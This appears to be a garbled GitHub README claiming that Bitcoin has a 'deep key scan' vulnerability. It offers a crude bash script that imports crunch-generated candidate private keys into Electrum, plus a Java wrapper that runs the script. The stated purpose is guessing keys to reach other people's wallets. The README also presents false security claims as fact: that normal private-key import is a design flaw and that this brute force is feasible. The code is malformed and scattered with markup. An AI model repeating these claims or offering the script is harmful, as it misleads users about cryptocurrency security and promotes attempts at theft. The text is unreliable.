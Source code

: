 # bitcoin-lost-deep-key-private-key
# lost bitcoin , deep key private key

The core concepts of how the blockchain works and operates remains uneffected by this vulernability in how bitcoin works,

<br>

It might be possible to scan bitcoin private keys sitting on the network due to a vulnerability in the way bitcoin was 
designed since there is nothing really safeguarding the internal framework of the bitcoin wallet either in classic, core or 
other variants. Even by encrypting your wallet nothing prevents the importation of a private key by changing a configuration 
flag in any wallet whether it is classic, core or a variant. I have attempted to test a basic attack vector using a password 
generation program based on JTR and crunch (https://sourceforge.net/projects/crunch-wordlist/) to generate a range of base 
58 values based on bitcoin private keys and under further modification it is possible to continue to customize this form of 
private key deep scan and execute it as a basic attack vector. The banking system should be notified not to get on-board 
with the Bitcoin network, even though originally the bitcoin network might have represented a form of Independence from 
banking institutions to by pass terrible fees from the banks and other dilemmas caused by most banks having full control.
As an example of private key generation and experimentation within the bitcoin network some private keys start with #L5..c4 
or Ky..k1 < as an example 52 characters alpha-numeric no special characters, decoded they flip around to an address starting 
with 1 as part of the end decoded process, similar to how paper wallets are printed exported and imported there is #nothing 
protecting a paper wallet if it is a known similar to how a private key bears no security or protection from import to #a 
wallet whether it is classic, core or a variant.
<br>
<br>
<br>
<br>

I estimate on a modern system this deep key scan for a small set of keys ranging in a few million private keys could take 
anywhere from 3 to 4 months to generate and scan, furthermore I have written a crude script to try newly generated private 
keys using “crunch” password generator to generate 52 character private keys starting with L or K.
this problem could also effect any "ALT" that uses the same model for private key to address encoding-decoding


# https://bitcoinelectrum.com/importing-your-private-keys-into-electrum/
<br>

# as an example using bash from a crude semi working type
<br>

where the .txt files are private key deep search blocks generated by crunch password generator
<br>

and electrum has to have a config flag flipped in order to import private keys, in order to being import
<br>

you have to import a pre-existing working private key into electrum which is used here.
<br>

#!/bin/sh 
<br>

head -n1 L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt > 
<br>

newfile.txt 
<br>

cat newfile.txt 
<br>

perl -p -i -e 's/\R//g;' newfile.txt 
<br>

cat newfile.txt 
<br>

cat newfile.txt | electrum importprivkey - 
<br>

tail -n +2 "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" > 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" && mv 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" 

<br>





#as a crude example using java in a non working model
<br>


/* 
<br>
* To change this license header, choose License Headers in Project Properties. 
<br>

* To change this template file, choose Tools | Templates 
<br>

* and open the template in the editor. 
<br>

*/ 
<br>

//package deepkeysearch; 
<br>

import java.io.BufferedReader; 
<br>

import java.io.InputStreamReader; 
<br>

public class DeepKeySearch { 
<br>

    public static void main(String[] args) { 
<br>

        DeepKeySearch obj = new DeepKeySearch(); 
<br>
<br>
<br>
<br>
<br>
    System.out.println("Place in working directory of wordlists to process"); 
<br>

    System.out.println("Change text file rotation after L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-
<br>
  
    L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt"); 
<br>
<br>
<br>
<br>

        String command = "./deepkey.sh"; 
<br>
<br>
<br>

        String output = obj.executeCommand(command); 
<br>
<br>
<br>

        System.out.println(output); 
<br>

    } 
<br>

    private String executeCommand(String command) { 
<br>

        StringBuffer output = new StringBuffer(); 
<br>

        int infinite = 99; 
<br>

        while (infinite != 100) { 
<br>
<br>
<br>

        Process p; 
<br>
      try { 
<br>
            p = Runtime.getRuntime().exec(command); 
            p.waitFor(); 
            BufferedReader reader = 
                            new BufferedReader(new InputStreamReader(p.getInputStream())); 
<br>

                        String line = ""; 
<br>
            while ((line = reader.readLine())!= null) { 
<br>
                output.append(line + "\n"); 
<br>

        System.out.println(output); 
<br>

            } 
<br>

        } catch (Exception e) { 
<br>
            e.printStackTrace(); 
<br>
        } 
<br>

        infinite = 1; 
<br>

        } 
<br>

        return output.toString(); 
<br>

        } 
<br>



    } 







